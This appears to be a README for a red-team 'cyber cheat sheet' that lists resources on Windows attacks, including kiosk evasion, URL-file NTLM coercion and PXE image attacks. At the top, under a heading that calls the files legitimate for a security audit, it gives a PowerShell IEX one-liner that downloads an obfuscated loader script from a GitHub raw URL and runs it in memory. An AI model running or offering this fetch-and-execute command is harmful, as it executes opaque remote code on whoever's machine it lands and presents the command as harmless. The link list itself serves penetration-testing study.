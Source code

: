 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

---
### DIVERS
---
**Global Ressources :**
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

**Kiosk evasion** : file access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

**NTLM**
- https://www.scip.ch/en/?labs.20210909

<br/><br/>

---
### OSINT - PASSWORD
---

- https://haveibeenpwned.com/
- https://breachdirectory.org/

<br/><br/>

---
### RECONNAISSANCE - ENUMERATION
---

Todo

<br/><br/>

---
### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad

